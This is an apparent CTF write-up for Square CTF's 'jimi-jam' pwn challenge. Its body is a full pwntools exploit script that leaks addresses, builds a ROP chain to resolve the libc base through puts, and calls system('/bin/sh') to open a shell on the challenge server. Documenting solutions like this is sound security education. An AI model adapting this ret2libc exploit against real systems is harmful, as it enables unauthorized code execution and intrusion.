


## Square CTF: jimi-jam [pwn]


#### ROP with some address shenanigans. Basically just calculate the base function address from the given leak, and rop to win. Detailed writeup after I finish my midterms papers, exploit code + shell for now.

```python
from pwn import *

binary = ELF('./jimi-jam', checksec = False)
libc = ELF('./libc.so.6', checksec = False)
#p = process('./jimi-jam')
p = remote('challenges.2020.squarectf.com', 9000)
#gdb.attach(p.pid, 'break *vuln + 48')

#: use bitwise operations to calculate addresses
print(p.recvuntil('here! '))
ropjail = int(p.recv().split('\n')[0], 16)
vuln_addr = ropjail - 0x2df7
func_base = vuln_addr & 0xfffffffff000

print('[*] ROPJAIL: {}'.format(hex(ropjail)))
print('[*] vuln addr: {}'.format(hex(vuln_addr)))
print('[*] func base: {}'.format(hex(func_base)))

#: exploit chain
exploit = cyclic(16)
exploit += p64(func_base + 0x3a3) #: pop rdi ; ret
exploit += p64(func_base + 0x2000 + 0xfa0) #: puts@GOT
exploit += p64(func_base + 0x0b0) #: puts@PLT
exploit += p64(vuln_addr)
p.sendline(exploit)

puts_leak = int('0x' + hex(u64(p.recvuntil('\n').ljust(8, '\x00')))[3:], 16)
print(hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
print(hex(libc_base))

exploit = cyclic(16)
exploit += p64(func_base + 0x01a)
exploit += p64(func_base + 0x3a3)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()
```
